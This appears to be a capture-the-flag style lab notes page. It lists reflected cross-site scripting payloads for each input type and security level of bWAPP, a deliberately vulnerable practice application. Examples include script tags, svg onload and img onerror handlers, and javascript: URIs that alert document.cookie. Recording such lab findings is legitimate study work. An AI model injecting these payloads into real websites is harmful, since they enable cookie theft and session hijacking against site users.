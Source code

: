 XSS - Reflected (GET)(LOW)
Payload- <script>alert(document.cookie)</script>(can be inserted in both parameter Firstname and lastname)

XSS - Reflected (GET)(MEDIUM) Payload- <svg onload=alert(document.cookie)>(Can be inserted in both the parameter Firstname and Lastname)

XSS - Reflected (GET)(High)
NYF

XSS - Reflected (POST)(Low)
Payload-<script>alert(document.cookie)</script>

XSS - Reflected (POST)(Medium)
Payload-<svg onload=alert(document.cookie)>

XSS - Reflected (POST)(High)
NYF

XSS - Reflected (JSON)(Low)
Payload - <marquee onclick=alert(document.cookie)>Click on me</marquee>

XSS - Reflected (JSON)(Medium)
Payload – NYF

XSS - Reflected (JSON)(High)
Payload – NYF

XSS - Reflected (AJAX/JSON)(Low/Medium)
Payload - <marquee onclick=alert(1)>Click!!!</marquee>

XSS - Reflected (AJAX/JSON)(High)
Payload – NYF

XSS - Reflected (AJAX/XML)(Low/Medium)
Payload - &lt;img src=&apos;#&apos; onerror=&apos;alert(document.cookie)&apos;&gt;

XSS - Reflected (AJAX/XML)(High)
Payload - <a href="javascript:x='&percnt;27-alert('BugBot19 was here')-%27';">XSS</a>


XSS - Reflected (BackButton)(Low)
Payload - ‘-alert(document.cookie)-’

XSS - Reflected (BackButton)(Medium)
Payload – javascript:alert(document.cookie)

XSS - Reflected (BackButton)(High)
Payload – Same as medium
Javascript:alert(document.cookie)

XSS - Reflected (CustomHeader)(Low)
Payload- bWAPP:<script>alert(document.cookie)</script>

XSS - Reflected (CustomHeader)(Medium)
Payload – bWAPP:'<marquee onclick=alert(document.cookie)>click to win 1$</marquee>'


